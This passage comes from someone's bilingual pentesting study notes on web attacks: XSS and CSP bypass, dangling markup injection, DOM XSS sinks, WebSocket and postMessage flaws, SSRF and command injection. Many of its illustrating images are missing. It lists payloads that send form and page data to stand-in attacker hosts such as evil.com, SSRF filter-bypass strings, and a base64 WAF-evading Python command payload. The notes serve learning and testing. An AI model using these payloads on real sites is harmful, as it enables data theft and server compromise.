   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
</table>


* **Si une page web possède un tag &lt;link> avec rel=”canonical”, une XSS réfléchie peut être effectuée en ajoutant des attributs à partir de l’attribut _href_ car il contient l’url. **

**				exemple:**

**				&lt;link rel="canonical" **


            **href='[https://acac1f151e3f156a80ac0fe000e30095.we](https://acac1f151e3f156a80ac0fe000e30095.we)**


            **b-security-academy.net/?'accesskey=’x’onclick=’alert’/>**


            **Ce qu’il y a en rouge est le payload.**


* **Si le caractère “espace” est filtré, il peut être remplacé par “/**/”.**
* **CSP (content security policy) permet d'améliorer la sécurité des sites web en permettant de détecter et réduire certains types d'attaques, dont les attaques XSS (Cross Site Scripting) et les injections de contenu. Ces attaques peuvent être utilisées dans divers buts, comme le vol de données, le défacement de site ou la diffusion de malware.**

        **It works by restricting the resources (such as scripts and**


        **images) that a page can load and restricting whether a page **


        **can be framed by other pages.**


        **To enable CSP, a response needs to include an HTTP response header called Content-Security-Policy with a value containing **


        **the policy. The policy itself consists of one or more directives, **


        **separated by semicolons. **


        **X-XSS Protection Header :**


        **(Re)Active une protection contre les XSS présent dans les navigateurs modernes.**


**-------------------------------------------------------------------**


* Dangling markup injection :
* Definiton

            **Dangling markup is a technique to steal the contents of the page without script by using resources such as images to send the data to a remote location that an attacker controls. It is useful when reflected XSS doesn't work or is blocked by Content Security Policy (CSP).**


            **The idea is you inject some partial HTML that is in an unfinished state such as a src attribute of an image tag, and the rest of the markup on the page closes the attribute but also sends the data in-between to the remote server.**


            **Example :**


            **let's say we have an injection point above a script and a form like this:**


<p id="gdcalert54" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image54.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert55">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>





            **Sometimes CSP will block the image vector with the open src attribute because the policy will not load any image resources or other sub resources. **


            **However we can use other tags like &lt;base> tag to bypass this restriction.**


            **By injecting an incomplete target attribute with &lt;base> tag the window name will be set with all the markup after the injection until the corresponding quote on every link on the page, therefore allowing us to steal tokens or whatever is between the injection point and the next quote.**


**	**

<p id="gdcalert55" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image55.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert56">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* **le Href dans la photo d’en haut contient l’URL de l’attaquant.**


<p id="gdcalert56" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image56.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert57">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert57" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image57.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert58">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>





<p id="gdcalert58" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image58.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert59">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>





### Interesting payloads


<table>
  <tr>
   <td><strong>&lt;form action='.....'>&lt;textarea> </strong>
   </td>
   <td><strong>la suite du code apparait dans un text area</strong>
   </td>
  </tr>
  <tr>
   <td><strong>&lt;meta http-equiv="refresh" content="4; URL='<a href="http://evil.com/log.cgi">http://evil.com/log.cgi</a>?</strong>
<p>
<strong>____________________________</strong>
<p>
<strong>&lt;meta http-equiv="refresh" content='0;URL=ftp://evil.com?a=</strong>
<p>
<strong>____________________________</strong>
<p>
<strong>&lt;style>@import//hackvertor.co.uk?</strong>
<p>
<strong>( The CSS specification states that @import should continue parsing a url until it encounters a ending “;” )</strong>
<p>
<strong>____________________________</strong>
<p>
<strong>&lt;table background='//your-collaborator-id.burpcollaborator.net?'</strong>
<p>
<strong>____________________________</strong>
   </td>
   <td><strong>If img tag is forbidden, you can use these to include an URL ...</strong>
   </td>
  </tr>
  <tr>
   <td><strong>&lt;base href='http://evil.com/'></strong>
   </td>
   <td><strong>Then, the forms that send data to the path (like &lt;form action='update_profile.php'>) will send the data to the malicious domain.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>&lt;base target='</strong>
   </td>
   <td><strong>Include the data code in the variable windows.name (the user must click in some link, because the base tag will have changed the domain pointed by the link).</strong>
<p>
<strong>you can then check it with the navigator console.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>&lt;form action='http://evil.com/log_steal'></strong>
   </td>
   <td><strong>this will overwrite the next form header and all the data from the form will be sent to the attacker.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>&lt;button name=xss type=submit formaction='https://evil.com'>I get consumed!</strong>
   </td>
   <td><strong>The button can change the URL where the information of the form is going to be sent with the attribute "formaction"</strong>
   </td>
  </tr>
  <tr>
   <td><strong>&lt;meta name="language" HTTP-EQUIV="refresh" content='1;http://enzvnx9ibrjd.x.pipedream.net/?</strong>
   </td>
   <td><strong>Redirection automatique vers l’URL</strong>
   </td>
  </tr>
  <tr>
   <td><strong>[XSS]</strong>
<p>
<strong>&lt;script src=[URL]?q=a&callback=alert(1)'>&lt;/script></strong>
<p>
<strong>_____________________________</strong>
   </td>
   <td><strong>Any CSP-enabled website that either offers JSONP feeds to others, or utilizes them internally, is automatically prone to a flavor of return-oriented programming: the attacker is able to invoke any functions of his choice, often with at least partly controllable parameters, by specifying them as the callback parameter on the API call:</strong>
<p>


<p id="gdcalert59" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image59.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert60">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>




   </td>
  </tr>
  <tr>
   <td><strong>&lt;img id='is_public'></strong>
   </td>
   <td><strong>Create variables inside javascript namespace by inserting HTML tags. Then, this variable will affect the flow of the application ( if this id name is use after in the code )</strong>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
</table>


**	List of HTML attribute with URL :**

**	**

<p id="gdcalert60" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image60.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert61">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>





<p id="gdcalert61" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image61.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert62">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>





<p id="gdcalert62" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image62.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert63">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>





* DOM XSS :
* **DOM-based XSS vulnerabilities usually arise when JavaScript takes data from an attacker-controllable source ( client-side JavaScript ), such as the URL, and passes it to a sink that supports dynamic code execution, such as eval() or innerHTML. **

                **This enables attackers to execute malicious JavaScript, which typically allows them to hijack other users' accounts. **

* **The most common source for DOM XSS is the URL, which is typically accessed with the window.location object.**
* **To test for DOM-based cross-site scripting manually, you generally need to use a browser with developer tools ( to see a close representation of the DOM ), such as Chrome. You need to work through each available source in turn, and test each one individually. **
* **To test for DOM XSS in an HTML sink, place a random alphanumeric string into the source (such as location.search), then use developer tools to inspect the HTML and find where your string appears. **
* **For each location where your string appears within the DOM ( or Javascript file or script ), you need to identify the context ( if it passed into a sink or other ). Based on this context, you need to refine your input to see how it is processed. For example, if your string appears within a double-quoted attribute then try to inject double quotes in your string to see if you can break out of the attribute. **

            **        Some Sink for DOM XSS**


<table>
  <tr>
   <td>
<strong>document.write</strong>
   </td>
   <td><strong>The document.write sink works with script elements, so you can use a simple payload, such as the one below:</strong>
<p>
<strong>document.write('... &lt;script>alert(document.domain)&lt;/script> ...'); </strong>
   </td>
  </tr>
  <tr>
   <td><strong>element.innerHTML</strong>
   </td>
   <td><strong>The innerHTML Sets or returns the content of an element. This sink doesn't accept script elements on any modern browser, nor will svg onload events fire.</strong>
<p>
<strong>This means you will need to use alternative elements like img or iframe. Event handlers such as onload and onerror can be used in conjunction with these elements. For example:</strong>
<p>
<strong>element.innerHTML='... &lt;img src=1 onerror=alert(document.domain)> ...' </strong>
<p>
<strong>you can use innerText instead of innerHtml in basic &lt;span> stag.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>attr()</strong>
   </td>
   <td><strong>The attr() function in jQuery can change attributes on DOM elements. </strong>
   </td>
  </tr>
  <tr>
   <td><strong>ng-app attribute</strong>
   </td>
   <td><strong>If a framework like AngularJS is used, it may be possible to execute JavaScript without angle brackets or events:</strong>
<p>
<strong>When a site uses the ng-app attribute on an HTML element, it will be processed by AngularJS. </strong>
<p>
<strong>In this case, AngularJS can use Angular expressions inside double curly braces that can occur directly in HTML or inside attributes. </strong>
<p>
<strong>Angular expressions combined with a sandbox escape ( removed in Angular v 1.6 ),  we can execute arbitrary JavaScript and do some serious damage.</strong>
<p>
<strong>in versions 1.0 - 1.1.5 there was no sandbox.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>document.location.href</strong>
   </td>
   <td><strong>Il faut faire en sorte qu’il soit égal à  : javascript:alert(1)</strong>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
</table>


* **You can use XSS inside SVG file  ( XSS by uploading file ):**

    

<p id="gdcalert63" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image63.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert64">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>





    **Make sure that the content type is right.**

* Cross-Site WebSocket Hijacking
* Definition


<p id="gdcalert64" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image64.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert65">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* **“101 Switching protocol means” that the web socket is connected.**

**	**


* Exploitation

**The problem is that Websocket can be made Cross-Site ( As opposed to XMLHttpRequest, WebSockets don't follow the same-origin policy) :**


    

<p id="gdcalert65" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image65.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert66">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>





    **To deal with this attack, you have to check the Origin when dealing with WebSocket. **


* **<span style="text-decoration:underline;">DOM XSS in web message :</span>**

**<span style="text-decoration:underline;">Fonctionnement :</span>**


<p id="gdcalert66" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image66.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert67">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**What often happens is that le wildcard ”*” is used when sensitive messages are sent. So, any website can get this sensitive message :**


<p id="gdcalert67" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image67.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert68">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>





**Another scenario :**


<p id="gdcalert68" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image68.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert69">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**Here, there is no checking for the origin of the message. So an attacker can send any message to the website from another malicious one :**

**Another scenario :**


<p id="gdcalert69" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image69.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert70">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**Autre payload :**


<p id="gdcalert70" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image70.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert71">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**Il faut bien sûr que le site vulnérable permette les iframes pour ce type de payload.**


* **possible payload sans iframe :**


<p id="gdcalert71" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image71.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert72">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert72" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image72.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert73">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* Authentication :


<p id="gdcalert73" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image73.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert74">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert74" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image74.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert75">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert75" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image75.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert76">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert76" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image76.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert77">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**(depending on the format of the request parameter)**


<p id="gdcalert77" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image77.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert78">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert78" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image78.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert79">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert79" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image79.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert80">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert80" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image80.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert81">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert81" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image81.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert82">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**-------------------------------------------------------------------**


* Server-side request forgery (SSRF)

**Server-side request forgery (also known as SSRF) is a web security vulnerability that allows an attacker to induce the server-side application to make HTTP requests ( or other protocol ) to an arbitrary domain of the attacker's choosing.**

**In typical SSRF examples, the attacker might cause the server to make a connection back to itself, or to other web-based services within the organization's infrastructure, or to external third-party systems. **

**A successful SSRF attack can often result in unauthorized actions or access to data within the organization, either in the vulnerable application itself or on other back-end systems that the application can communicate with. **

**In some situations, the SSRF vulnerability might allow an attacker to perform arbitrary command execution. **

**	**


* **If the used API support open redirection via a parameter, you can try perform SSRF via this one ( to bypass the filter of the basic server ):**


<p id="gdcalert82" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image82.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert83">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* finding vuln


<p id="gdcalert83" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image83.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert84">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


### 
               		Useful payloads


<table>
  <tr>
   <td><strong>http://localhost/...</strong>
   </td>
   <td><strong>Contre le serveur lui-même</strong>
   </td>
  </tr>
  <tr>
   <td><strong>2130706433</strong>
<p>
<strong>017700000001</strong>
<p>
<strong>127.1</strong>
<p>
<strong>127.0.1</strong>
<p>
<strong>evil.net</strong>
<p>
<strong>[0:0:0:0:ffff:127.0.0.1] ( use of Ipv6 format )</strong>
   </td>
   <td><strong>For bypass filter against this input 127.0.0.1</strong>
<p>
<strong>For evil.net, you can register your own domain name that resolves to 127.0.0.1</strong>
   </td>
  </tr>
  <tr>
   <td><strong>https://expected-host@evil-host</strong>
<p>
<strong>https://evil-host#expected-host</strong>
<p>
<strong>https://[...]#@[...]</strong>
<p>
<strong>https://[...]@#[...]</strong>
<p>
<strong>https://evil-host?expected-host </strong>
   </td>
   <td><strong>Il se peut que evil-host soit pris en compte à la place expected-host dans ces exemples ( selon l'implémentation du traitement de la requête, quelles bibliothèques sont utilisées ).</strong>
   </td>
  </tr>
  <tr>
   <td><strong>https://expected-host:80:10101/</strong>
   </td>
   <td><strong>Selon l'implémentation du traitement de la requête, quelles bibliothèques sont utilisées, le port 80 peut être pris en compte ou l’autre.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>Gopherus --exploit</strong>
   </td>
   <td><strong>Create payload ( Reverse shell or other ) for SSRF for different protocol et features ( smpt, redis, mongoDb, .. )</strong>
   </td>
  </tr>
  <tr>
   <td><strong>SSFRmap</strong>
   </td>
   <td><strong>Good tool for SSRF vulnerabilities ( svan port, files, …. )</strong>
   </td>
  </tr>
  <tr>
   <td><strong>url=http://assets.pentesterlab.com.hackingwithpentesterlab.link/</strong>
   </td>
   <td><strong>In this example, the developer blocked everything that doesn't match assets.pentesterlab.com.</strong>
<p>
<strong>But We setup a special DNS zone that will always answer 127.0.0.1 for any host in the domain hackingwithpentesterlab.link.</strong>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
</table>


* Os command injection


<p id="gdcalert84" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image84.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert85">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert85" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image85.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert86">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert86" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image86.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert87">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert87" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image87.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert88">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert88" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image88.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert89">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


### Some payload


<table>
  <tr>
   <td><strong>__import__('os').system([CMD])</strong>
   </td>
   <td><strong>Python context code when the module os is not loaded</strong>
   </td>
  </tr>
  <tr>
   <td><strong>str(__import__('os').popen(__import__('base64').b64decode([CMD_ENCODED_B64])).read())</strong>
   </td>
   <td><strong>Python context code when the module os is not loaded, bypassing WAF with base64 encoding</strong>
   </td>
  </tr>
  <tr>
